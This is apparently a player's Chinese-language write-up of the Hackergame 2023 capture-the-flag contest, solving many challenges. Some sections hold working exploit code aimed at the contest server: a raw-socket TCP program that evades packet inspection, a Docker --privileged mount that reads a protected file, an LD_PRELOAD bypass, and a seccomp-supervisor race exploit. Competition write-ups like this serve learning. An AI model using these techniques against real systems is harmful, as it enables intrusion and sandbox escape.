






## Hackergame 启动

~~大声喊出「Hackergame 启动」即可获得 flag~~

先随便提交一次，然后把 url 里的 similarity 值改为 100 即可。

## 猫咪小测

### 第一题

搜索找到 [图书信息](http://opac.lib.ustc.edu.cn/opac/item.php?marc_no=327a7645475856523147686a374b4b35414a44477834613056756e656b596a6e32707565696431557269413d) 结合 [图书馆简介](https://lib.ustc.edu.cn/%E6%9C%AC%E9%A6%86%E6%A6%82%E5%86%B5/%E5%9B%BE%E4%B9%A6%E9%A6%86%E6%A6%82%E5%86%B5%E5%85%B6%E4%BB%96%E6%96%87%E6%A1%A3/%E8%A5%BF%E5%8C%BA%E5%9B%BE%E4%B9%A6%E9%A6%86%E7%AE%80%E4%BB%8B/) 得知外文书库在 12 楼

### 第二题

找到一个 [知乎回答](https://www.zhihu.com/question/20337132/answer/3023506910)

### 第三题

直接 GPT 伺候，该选项为 `CONFIG_TCP_CONG_BBR`

### 第四题

搜索 `mypy`、`type check`、`infinite loop` 等关键词，找到 [该论文](https://drops.dagstuhl.de/opus/volltexte/2023/18237/pdf/LIPIcs-ECOOP-2023-44.pdf)

## 更深更暗

检查元素



## 旅行照片 3.0

* 与学长见面的日期

学长脖子上挂着 STATPHYS28 字样的条带，可以找到 [相关活动](https://statphys28.org/)

* 奖牌得主

梶田隆章，东京大学宇宙射线研究所，详见 [维基百科](https://zh.wikipedia.org/zh-hans/%E6%A2%B6%E7%94%B0%E9%9A%86%E7%AB%A0)

开摆～

##  赛博井字棋

把前端校验的地方 override 一下，就能直接覆盖对手的棋子



## 奶奶的睡前 flag 故事

在 B 站刷到过 [相关视频](https://www.bilibili.com/video/BV1nm4y187cY)，视频中提到了一个可以尝试还原这种截图的网站 [aCropalypse](https://acropalypse.app/)

打开网站，宽度调整为 1080 像素，随便给一个高度，即可还原出被截断的部分


## 组委会模拟器

一开始写了个油猴脚本

```js
// ==UserScript==
// @name        Hackergame2023 组委会模拟器
// @namespace   Violentmonkey Scripts
// @match       http://202.38.93.111:10021/
// @grant       none
// @version     1.0
// @author      Mufanc
// ==/UserScript==

(() => {
    const observer = new MutationObserver((records) => {
        for (const record of records) {
            for (const element of record.addedNodes) {
                if (!(element instanceof HTMLElement)) return
                const bubble = element.querySelector('.fakeqq-message__bubble')
                if (bubble && bubble.innerText.match(/hack\[[a-z]+]/)) {
                    bubble.click()
                }
            }
        }
    });

    function wait() {
        const container = document.querySelector('.fakeqq-container')
        if (container) {
            observer.observe(container, { childList: true, subtree: true })
        } else {
            setTimeout(wait)
        }
    }

    wait()
})()
```

但似乎不是很稳定，在某些情况下会超出 3s 限制，于是又搓了个 Python 脚本

```py
import asyncio
import os
import re

import httpx

server = '202.38.93.111:10021'
client = httpx.AsyncClient()


async def delete_message(delay, index, message):
    await asyncio.sleep(delay)
    response = (await client.post(f'http://{server}/api/deleteMessage', json={'id': index})).json()
    if response['success']:
        print(f'delete message {index}: {message}')
    else:
        raise Exception(response)


async def main():
    # login
    await client.get(f'http://{server}/api/checkToken', params={'token': os.environ['TOKEN']})

    # get messages
    messages = (await client.post(f'http://{server}/api/getMessages')).json()   

    # delete message
    delete_list = []

    for i, message in enumerate(messages['messages']):
        if not re.search(r'hack\[[a-z]+]', message['text']):
            continue

        delete_list.append(delete_message(message['delay'], i, message['text']))

    await asyncio.gather(*delete_list)

    # get flag
    print((await client.post(f'http://{server}/api/getflag')).json())


if __name__ == '__main__':
    asyncio.new_event_loop().run_until_complete(main())

```

## 虫

搜索无线图传相关技术，得知音频数据由 SSTV 编码而来，找到一个 [Android 可用的解码器](https://play.google.com/store/apps/details?id=xdsopl.robot36)



## JSON ⊂ YAML?

### JSON ⊄ YAML 1.1

[这里](https://john-millikin.com/json-is-not-a-yaml-subset) 可以找到解释

### JSON ⊄ YAML 1.2	

参考 Stack Overflow 上的 [这个回答](https://stackoverflow.com/a/53921349)，构造 json

```json
{"num": 1e5, "obj": 233, "obj": "str"}
```

两个 flag 都可以拿到

## Git？Git！

自己平时没少干这事（

```sh
> git reflog | cat
ea49f0c HEAD@{0}: commit: Trim trailing spaces
15fd0a1 HEAD@{1}: reset: moving to HEAD~
505e1a3 HEAD@{2}: commit: Trim trailing spaces
15fd0a1 HEAD@{3}: clone: from https://github.com/dair-ai/ML-Course-Notes.git

> git reset --hard 505e1a3
HEAD is now at 505e1a3 Trim trailing spaces

> rg flag
README.md
19:  <!-- flag{TheRe5_@lwAy5_a_R3GreT_pi1l_1n_G1t} -->
```

## HTTP 集邮册

### 5 种状态码

* 200 OK

不解释

* 404 Not Found

不解释

* 400 BAD REQUEST

随便乱写一些内容，发出

* 414 Request-URI Too Large

请求非常长的路径

```
GET /looo..........oong HTTP/1.1
```

* 405 Not Allowed

请求方法 `GET` 换成 `POST`

### 没有状态……哈？

使用上古协议（HTTP 0.9），参考 [MDN](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Basics_of_HTTP/Evolution_of_HTTP#http0.9%E2%80%94%E2%80%94%E5%8D%95%E8%A1%8C%E5%8D%8F%E8%AE%AE)

```
GET /\n\n
```

### 12 种状态码

在上面五种的基础上：

* 206 Partial Content

指定 `Range: bytes=0-100`

* 416 Requested Range Not Satisfiable

指定一个非法的 Range，例如 `Range: bytes=200-100`

* 505 HTTP Version Not Supported

胡乱写 HTTP 版本：`GET / HTTP/11451`

* 304 Not Modified

指定 `If-None-Match: *`

* 413 Request Entity Too Large

指定一个巨大的 Content-Length：`Content-Length: 1000000000`

* 501 Not Implemented

指定一个不受支持的编码形式 `Transfer-Encoding: hackergame`

* 100 Continue

指定一个 `Expect: 100-continue`（参考 [MDN](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Expect)）

## Docker For Everyone

很简单，添加 `--privileged` 然后重新 run 就好了

```sh
alpine:~$ docker run --privileged --rm -it -v $(readlink /flag):/flag alpine
/# cat /flag
flag{u5e_r00t1ess_conta1ner_795516254f_plz!}
```

## 惜字如金 2.0

观察 `cod_dict` 每一行都少一个，根据以下约束：

* 以 `flag{` 开头

* 以 `}` 结尾

* 其它位置不能有多余的 `}`

可以给 `cod_dict` 补上缺位的字符：

```python
cod_dict += ['nymeh1niwemflcir}echaet#']
cod_dict += ['a3g7}kidgojernoetlsup?h#']  
cod_dict += ['#ulw!f5soadrhwnrsnstnoeq']  
cod_dict += ['#ct{l-findiehaai{oveatas']  
cod_dict += ['#ty9kxborszstguyd?!blm-p']  
```

运行一遍即可得到 flag

## 🪐 高频率星球

去掉记录文件头尾一些无用的行和转义字符，仅保留 js 代码部分，然后使用 `asciinema_restore.rec > flag.js` 即可得到脚本文件

输出的文件会包含一些非法字符，正则搜索 `\x1b` 相关内容，替换掉这些非法部分即可

## 🪐 小型大语言模型星球

### You Are Smart

用魔法打败魔法（




## 🪐 流式星球

虽然不知道视频具体的长宽和帧数，但观察代码可以发现 bin 文件实际上是按照一帧一帧的顺序排列的。于是可以在一个合理的范围内枚举宽度，手动观察输出图像是否合理来确定实际宽度

```py
import cv2
import numpy as np

video = np.fromfile('video.bin', dtype=np.uint8)[:100000]

for w in range(200, 1000):
    h = len(video)  // w // 3
    cv2.imwrite(f'images/{w}.png', video[: w * h * 3].reshape((h, w, 3)))
```

观察所有输出，得到视频宽度为 427px，将代码中的 `[:100000]` 去掉再跑即可得到一张长图，可以在图片中找到 flag

```py
import cv2
import numpy as np

video = np.fromfile('video.bin', dtype=np.uint8)

for w in (427,):
    h = len(video)  // w // 3
    cv2.imwrite(f'images/{w}.png', video[: w * h * 3].reshape((h, w, 3)))
```

## 🪐 低带宽星球

### 小试牛刀

用 [TinyPNG](https://tinypng.com/) 压一下就好

## Komm, süsser Flagge

### 我的 POST

将 `POST` 拆开发送

```py
import socket

HOST = '202.38.93.111'
PORT = 18080


message = f'''
POST / HTTP/1.1\r
Host: {HOST}:{PORT}\r
Content-Length: %d\r
\r
%s
'''.strip()


def do_post(data: str):
    sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sk.connect((HOST, PORT))

    raw = (message % (len(data), data)).encode()

    sk.sendall(raw[0:2])
    sk.sendall(raw[2:])

    resp = sk.recv(4096)
    print(resp.decode())
    sk.close()


do_post('YOUR_TOKEN')
```

### 我的 P、我的 GET

后两问需要用 Raw Socket 自己实现 TCP 协议

对于第二问，没有采用和官方一致的解法，而是通过紧急指针将第一个字节设置为紧急数据，绕过针对首字母 `P` 的检测；第三问则是设置 TCP 选项，将 `GET / HTTP` 塞进选项后面用于填充对齐的部分，从而通过检查

```c++
#include <cstdio>
#include <cstdlib>
#include <cstring>

#include <random>

#include <arpa/inet.h>
#include <netinet/ip.h>
#include <netinet/tcp.h>
#include <sys/socket.h>
#include <sys/unistd.h>

#define RESTART "/proc/self/exe"


class error {
private:
    const char* message;

public:
    explicit error(const char *message) : message(message) { }

    template<typename T>
    friend T operator | (T value, error err);
};

template<typename T>
T operator | (T value, error err) {
    if (value == -1) {
        perror(err.message);
        exit(1);
    }
    return value;
}


int random_port() {
    std::random_device dev;
    std::default_random_engine gen(dev());
    std::uniform_int_distribution<int> distribution(0, 1000);
    return 20000 + distribution(gen);
}

struct pseudo_header {
    uint32_t src_addr;
    uint32_t dst_addr;
    uint8_t placeholder;
    uint8_t protocol;
    uint16_t tcp_length;
};

struct transmission_buffer {
    pseudo_header ph;
    char data[4096];
};


class tcp_custom {
private:
    int fd = -1;
    transmission_buffer buffer;
    sockaddr_in local, remote;
    const char *options = nullptr;
    int options_len = 0;
    int data_len = 0;
    int seq = 0, ack_seq = 0;

    void update_ph() {
        buffer.ph = {
            .src_addr = local.sin_addr.s_addr,
            .dst_addr = remote.sin_addr.s_addr,
            .placeholder = 0,
            .protocol = IPPROTO_TCP,
            .tcp_length = htons(sizeof(tcphdr) + options_len + data_len)
        };
    }

    uint16_t checksum() {
        auto *ptr = (uint16_t *) &buffer;
        int len = sizeof(pseudo_header) + ntohs(buffer.ph.tcp_length);

        int sum = 0;

        while (len > 1) {
            sum += ntohs(*ptr++);
            len -= 2;
        }

        if (len == 1) {
            sum += ntohs(*(uint8_t *) ptr);
        }

        while (sum >> 16) {
            sum = (sum >> 16) + (sum & 0xFFFF);
        }

        return (uint16_t) htons(~sum);
    }

    void send(const char *data, tcphdr *override) {
        auto *tcph = (tcphdr *) buffer.data;
        memset(tcph, 0, sizeof(tcphdr));
        tcph->source = local.sin_port;
        tcph->dest = remote.sin_port;
        tcph->seq = htonl(seq);
        tcph->doff = (sizeof(tcphdr) + options_len) / 4;
        tcph->window = htons(65535);

        if (override) {
            override->syn && (tcph->syn = 1);
            override->psh && (tcph->psh = 1);
            override->ack && (tcph->ack = 1);
            override->urg && (tcph->urg = 1);
        }

        if (tcph->ack) {
            tcph->ack_seq = htonl(ack_seq);
        }

        data_len = data ? strlen(data) : 0;

        // copy options and data
        options_len && memcpy(buffer.data + sizeof(tcphdr), options, options_len);
        data_len && memcpy(buffer.data + sizeof(tcphdr) + options_len, data, data_len);

        // calculate checksum
        update_ph();
        tcph->check = checksum();

        sendto(fd, buffer.data, sizeof(tcphdr) + options_len + data_len, 0, (sockaddr *) &remote, sizeof(sockaddr)) | error("sendto");
        seq += tcph->syn ? 1 : data_len;
    }

    int recv() {
        int count;

        for (;;) {
            count = recvfrom(fd, buffer.data, sizeof(buffer.data), 0, nullptr, nullptr) | error("recvfrom");

            auto *header = (tcphdr *) (buffer.data + sizeof(iphdr));
            if (header->dest == local.sin_port) {
                ack_seq = ntohl(header->seq) + 1;
                break;
            }
        }

        count -= sizeof(iphdr);
        memcpy(buffer.data, buffer.data + sizeof(iphdr), count);  // trim IP header

        return count;
    }

public:
    explicit tcp_custom(int fd) : fd(fd) {
        memset(&buffer, 0, sizeof(buffer));
    }

    void bind(const char *addr, int port) {
        local = {
            .sin_family = AF_INET,
            .sin_port = htons(port),
            .sin_addr = {
                .s_addr = inet_addr(addr)
            }
        };
    }

    void connect(const char *addr, int port) {
        remote = {
            .sin_family = AF_INET,
            .sin_port = htons(port),
            .sin_addr = {
                .s_addr = inet_addr(addr)
            }
        };
    }

    void set_options(const char *opts, int length) {
        options = opts;
        options_len = length;
    }

    void handshake() {
        tcphdr override;
        memset(&override, 0, sizeof(override));

        override.syn = 1;

        send(nullptr, &override);
        recv();

        override.syn = 0;
        override.ack = 1;

        send(nullptr, &override);
    }

    void send_data(char *buf, int urg = 0) {
        tcphdr override;
        memset(&override, 0, sizeof(override));
        override.ack = 1;
        override.psh = 1;
        override.urg = urg;
        send(buf, &override);
        recv();  // ack
    }

    void recv_data(char *buf) {
        memset(buffer.data, 0, sizeof(buffer.data));
        int count = recv();
        memcpy(buf, buffer.data + sizeof(tcphdr), count - sizeof(tcphdr));
    }
};


int main(int argc, char *argv[]) {
    int flag = argc == 2 ? (int) strtol(argv[1], nullptr, 10) : 2;

    const char *const local_addr = "192.168.2.3";
    const char *const remote_addr = "202.38.93.111";
    const int local_port = random_port();
    const int remote_port = 18079 + flag;

    const char *token = getenv("TOKEN");
    char data[256], buffer[256] = {0};
    sprintf(data, "#POST / HTTP/1.1\r\nHost: 127.0.0.1\r\nContent-Length: %zu\r\n\r\n%s", strlen(token), token);

    printf("flag-%d:\n", flag);
    fflush(stdout);

    int fd = socket(AF_INET, SOCK_RAW, IPPROTO_TCP) | error("socket");
    auto protocol = tcp_custom(fd);

    protocol.bind(local_addr, local_port);
    protocol.connect(remote_addr, remote_port);

    switch (flag) {
        case 2:
            protocol.handshake();
            protocol.send_data(data, 1);
            protocol.recv_data(buffer);
            break;
        case 3:
            const char options[] = "\x00GET / HTTP\x00";
            protocol.set_options(options, sizeof(options) - 1);
            protocol.handshake();
            protocol.send_data(data + 1);
            protocol.recv_data(buffer);
            break;
    }

    printf("%s\n", buffer);
    fflush(stdout);

    if (flag == 2) {
        execl(RESTART, RESTART, "3", nullptr);
    }

    return 0;
}

```

## 为什么要打开 /flag 

### LD_PRELOAD

第一题会使用 LD_PRELOAD 阻碍我们使用 open 相关函数，静态链接一个 libc 即可绕过

```cpp
#include <cstdio>

int main() {
    FILE *fp = fopen("/flag", "r");
    char buffer[256];
    fscanf(fp, "%[^\n]", buffer);
    printf("%s\n", buffer);
    fclose(fp);    
    return 0;
}
```

编译时添加 `-static` 选项

## Seccomp

把 `/flag` 拆分为两部分，一个单独的 `\0` 放在页面尾部，`flag` 放在下一页。当 Supervisor 来读内存的时候触发缺页中断，从而被我们检测到，以最快的速度把 `/` 写上去，这样内核执行真正 syscall 的时候系统看到的就是 `/flag`

```cpp
#include <cstdint>
#include <cstdio>
#include <cstring>
#include <fcntl.h>
#include <sched.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/signal.h>
#include <sys/wait.h>

const int page_size = 0x1000;
const int stack_size = 1 << 20;


inline void mincore_wait(void *addr) {
    int pagemap = open("/proc/self/pagemap", O_RDONLY);

    uint64_t page;
    off64_t offset = ((off64_t) addr) / page_size * 8;

    while (pread64(pagemap, &page, sizeof(page), offset) != -1) {
        if (page & (1LL << 63)) return;
    }
}

int child_main(void *addr) {
    char *fslash = (char *) addr;

    mincore_wait(fslash);
    *fslash = '/';  // write a '/' at the end of page, just race with system!

    return 0;
}

int main() {
    void *addr = mmap(nullptr, 2 * page_size, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    char *fslash = (char *) addr + page_size - 1;

    strcpy(((char *) addr) + page_size, "flag");

    void *stack = mmap(nullptr, stack_size, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);

    clone(child_main, (char *) stack + stack_size, CLONE_VM | SIGCHLD, fslash);

    // slow down
    for (int i = 0; i < 10000; i++) {
        for (int j = 0; j < 10000; j++);
    }

    int fd = open(fslash, O_RDONLY);

    char flag[64] = {0};
    read(fd, flag, sizeof(flag));
    printf("%s\n", flag);

    wait(nullptr);

    return 0;
}
```

## 异星歧途

观察 + 多试即可，注意顺序避免钍反应堆爆炸


